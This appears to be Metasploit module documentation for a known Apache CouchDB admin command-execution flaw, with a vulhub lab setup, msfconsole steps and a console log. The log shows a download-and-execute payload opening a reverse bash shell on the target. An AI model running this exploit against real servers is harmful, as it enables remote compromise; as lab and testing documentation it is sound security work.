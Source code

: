 ## Description  

CouchDB administrative users can configure the database server via HTTP(S). Some of the configuration options
include paths for operating system-level binaries that are subsequently launched by CouchDB.
This allows an admin user in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to execute arbitrary shell
commands as the CouchDB user,including downloading and executing scripts from the public internet.

## Vulnerable Application  

**Vulnerable Application Link** 

- docker  

Couchdb 2.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635  
Couchdb 1.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12636


### Vulnerable Application Installation Setup.

Change dictory to CVE-2017-1263X, and run `docker-compose up -d` 


## Verification Steps  

  1. Install the application
  2. Start msfconsole
  3. Do: ```use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb```
  4. Do: ``check``

``[*] 192.168.77.139:5984 The target appears to be vulnerable.``

  5. Do: ``set srvhost <ip>``
  6. Do: ``set srvport <port>``
  7. Do: ``set lhost <ip>``
  8. Do: ``set lport <port>``
  9. Do: ``exploit``
  10. You should get a shell.

## Options

### URIPATH

``URIPATH`` by default is random, you can change it if you want.

### HttpUsername, HttpPassword  

Sometimes it requires authentication, set these options to authorize.  


## Scenarios  

### Apache CouchDB on Linux

```
msf5 > use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > show options 

Module options (exploit/linux/http/apache_couchdb_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password to login with
   HttpUsername                   no        The username to login as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                          yes       The target address
   RPORT         5984             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit to download and execute. (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set rhost 192.168.77.139
rhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > check 
[*] 192.168.77.139:5984 The target appears to be vulnerable.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set srvhost 192.168.77.139 
srvhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set srvport 8888
srvport => 8888
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set lhost 192.168.77.139 
lhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit 
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.77.139:4444 
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > [*] Using URL: http://192.168.77.139:8888/rXrdf2
[*] 192.168.77.139:5984 - The 1 time to exploit
[*] 192.168.77.139:5984 - Sending the payload to the server...
[*] Command shell session 1 opened (192.168.77.139:4444 -> 172.18.0.2:58348) at 2018-03-27 06:18:21 -0400
[*] Server stopped.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(couchdb) gid=999(couchdb) groups=999(couchdb)
```
